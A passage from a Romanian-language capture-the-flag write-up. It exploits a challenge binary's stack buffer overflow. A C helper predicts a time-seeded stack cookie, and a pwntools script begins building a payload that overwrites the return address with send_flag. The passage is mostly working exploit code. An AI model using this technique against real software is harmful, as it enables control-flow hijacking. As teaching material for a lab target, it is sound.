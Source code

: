 ```text
+---------------------+----------------------------------+---------------------------------+
|                     |                                  |                                 |
| 28 bytes of garbage | 4 bytes of computed stack cookie | 4 bytes of pointer to send_flag |
|                     |                                  |                                 |
+---------------------+----------------------------------+---------------------------------+
```

Program următor va fi numit `generate_cookie.c` și este scris în C. El se va ocupa de calcularea valorii *stack cookie*-ului.

```c
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

int main(){

    int random_value, cookie, now;

    now = time(0);
    srand(now);
    random_value = rand();
    cookie = random_value % now;
    printf("%d", cookie);

}
```

In *script*-ul de mai jos, s-a folosit Python 3 (împreună cu modulul `pwntools`) și programul de mai sus, compilat cu comanda `gcc -o generate_cookie.elf generate_cookie.c`

```python
#!/usr/bin/env python3

import sys
import subprocess

from pwn import log, elf, process, p32

EXECUTABLE_PATH = "cookie_lover.elf"
COOKIE_GENERATOR_PATH = "./generate_cookie.elf"
FLAG_PREFIX = b"SI{"
FLAG_SUFFIX = "}"
PAYLOAD_FILE = "payload.bin"


def main() -> None:
    # Preia simbolul funcției send_flag
    executable = elf.ELF(EXECUTABLE_PATH, checksec=False)
    send_flag = executable.symbols["send_flag"]
    log.info("Adresa funcției send_flag este {}.".format(hex(send_flag)))

    # Creează un proces nou pe baza executabilului
    p = process.process(EXECUTABLE_PATH)
    output = p.recv(timeout=0.1)

    # Lansează un proces pentru generarea unui stack cookie
    cookie = process.process(COOKIE_GENERATOR_PATH).recvall()
    cookie = int(cookie)
    log.info("Stack cookie-ul generat este {}.".format(cookie))

    # Creează payload-ul de forma:
    # OVERFLOW_GARBAGE + COOKIE + SEND_FLAG_SYMBOL + REST_GARBAGE
    payload = 28 * b'a'
    payload += p32(cookie)
```